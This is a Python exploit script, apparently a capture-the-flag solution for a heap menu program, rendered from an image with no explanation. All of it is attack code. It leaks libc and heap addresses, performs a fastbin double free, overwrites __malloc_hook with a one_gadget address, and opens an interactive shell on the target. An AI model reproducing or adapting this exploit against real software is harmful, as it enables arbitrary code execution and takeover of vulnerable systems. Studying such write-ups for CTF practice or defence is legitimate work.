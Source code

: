 ```python
delete(1)
pause()
new(0x68, b'A', b'1'*0x8)
pause()
check()
r.recvuntil(b'2. 22222222 --> ')
libc_base = u64(r.recvn(6)+b'\x00'*2) - 0x3b4bc0
print(hex(libc_base))

# get heap_base
new(0x68, b'A'*0x8, b'4'*0x8)
new(0x68, b'B'*0x8, b'5'*0x8)
delete(5)
delete(4)
new(0x68, b'A', b'4'*0x8)
check()
r.recvuntil(b'4. 44444444 --> ')
heap_base = u64(r.recvn(6)+b'\x00'*2) & 0xfffffffff000
print(hex(heap_base))

# doublefree
new(0x68, b'A', b'5'*0x8)
delete(5)
delete(4)
new(0x68, b'B', b'4'*0x8)
new(0x68, b'B', b'5'*0x20 + p64(heap_base+0x0f0) + b'df')
delete(4)
delete(5)
delete(6)

#overwrite malloc_hook
oneshot = libc_base + 0xe1fa1
malloc_hook = libc_base + 0x3b4b50
new(0x68, p64(malloc_hook-0x10-19), b'over')
pause()
new(0x68, b'X', b'X')
pause()
new(0x68, b'Y', b'Y')
pause()
new(0x68, b'Z'*19 + p64(oneshot), b'EX')

#leak
r.sendlineafter(b'Input: ', b'1')
r.sendlineafter(b'Select length: ', b'0')

r.interactive()
```